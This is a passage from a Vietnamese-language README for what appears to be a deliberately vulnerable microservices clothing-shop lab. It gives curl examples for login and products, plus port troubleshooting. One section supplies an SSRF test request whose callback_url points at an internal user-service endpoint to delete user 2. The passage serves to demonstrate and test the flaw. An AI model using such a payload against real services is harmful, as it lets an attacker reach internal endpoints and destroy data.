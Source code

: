 ### Đăng nhập

```bash
curl -X POST http://localhost:8081/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "testuser",
    "password": "password123"
  }'
```

### Lấy danh sách sản phẩm

```bash
curl http://localhost:8082/api/products/
```

### Test SSRF (xóa user ID=2)

```bash
curl "http://localhost:8083/api/inventory/1/M?callback_url=http://user-service:8081/api/users/delete/2"
```

### Tạo sản phẩm mới

```bash
curl -X POST http://localhost:8082/api/products/ \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Jeans Premium",
    "description": "Stylish blue jeans",
    "price": 59.99,
    "image_url": "https://via.placeholder.com/400x300?text=Jeans",
    "sizes": [
      {"size": "S", "quantity": 10},
      {"size": "M", "quantity": 15},
      {"size": "L", "quantity": 20},
      {"size": "XL", "quantity": 5}
    ]
  }'
```

## ❗ Troubleshooting

### Lỗi: "port already in use"

**Nguyên nhân**: Port 8081, 8082, 8083, hoặc 3000 đã được dùng bởi ứng dụng khác.

**Giải pháp**: 
1. Tìm và dừng ứng dụng đang dùng port:
   ```powershell
   netstat -ano | findstr :8081
   taskkill /PID <PID> /F
   ```
2. Hoặc thay đổi port trong `docker-compose.yml`
